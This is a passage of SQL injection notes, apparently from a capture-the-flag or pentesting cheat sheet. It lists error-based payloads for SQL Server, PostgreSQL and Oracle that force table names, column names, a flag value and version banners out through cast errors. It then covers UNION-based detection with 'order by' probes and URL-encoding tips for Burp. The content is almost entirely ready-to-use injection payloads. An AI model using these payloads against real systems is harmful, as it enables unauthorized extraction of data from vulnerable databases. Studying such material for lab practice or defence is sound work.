 ```sql
CAST((SELECT name FROM target.sys.tables WHERE name LIKE '%flag%';) as int)
```

```sql
CAST((
  SELECT name
  FROM target.sys.columns
  WHERE object_id = OBJECT_ID('target.dbo.flags')
  ORDER BY name
  OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY
) AS INT)
```

```sql
CAST((
  SELECT TOP 1 flag
  FROM target.dbo.flags
) AS INT)
```

PostgreSQL

```sql
cast(version() as integer)
```

Oracle

```sql
to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))
```

### UNION-Based & Database Detection Notes

#### Purpose

To detect and exploit UNION-based SQL Injection vulnerabilities and identify the backend database (MySQL, SQL Server, Oracle, PostgreSQL).

---

```sql
' order by 1--
```

#### or for burp

Always URL encode your payload if you paste it into Burp:

    - ' → %27

    - Space → %20

    - -- - → %2D%2D%20-

```sql
%25%27+order+by+4+--
```

---